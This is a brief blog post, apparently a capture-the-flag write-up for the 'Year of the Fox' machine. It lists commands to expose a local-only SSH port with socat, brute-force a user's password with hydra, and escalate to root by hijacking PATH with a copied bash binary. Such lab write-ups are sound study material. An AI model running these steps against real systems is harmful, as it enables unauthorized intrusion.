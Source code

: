 ```yaml
---
layout: post
title: Year of the Fox
published: true
---
```

# Year of the Fox

- RCE Identification and exploitation

    ![POC](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled.png)

- Exploitaion

    ![POC1](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%201.png)

Port Forwarding 

- POC

    >> `tcp 0 0 127.0.0.1:22 0.0.0.0:* LISTEN -` 

    >> `netstat -tulw` shows `localhost:ssh`

    >> check `/etc/ssh/sshd_config` → shows `Listen Adress: 127.0.0.1, Allow User: Fox`

- Command to forward port 22 to 8001

    >> `socat tcp-listen:8001,reuseaddr,fork tcp:localhost:22` 

- Command to bruteforce Fox passwd

    >> `hydra -l user -P pss.txt -s 8081 <ip> -t 4 -V`

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/scr-200820-1711-51.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/scr-200820-1711-51.png)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/scr-200820-1713-47.png)

- Root

    >> Identification

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%202.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%202.png)

    >> Reversing Gets us (Path is not specified)

    ![Year%20of%20the%20Fox%20d3d812bf669645a99c2b817c95f5c9ec/Untitled%203.png](https://raw.githubusercontent.com/Bliqlegend/bliqlegend.github.io/master/_posts/Untitled%203.png)

    >> Exploitaion

      >> `cp /bin/bash /tmp/poweroff`

      >> `export PATH=/tmp:$PATH`
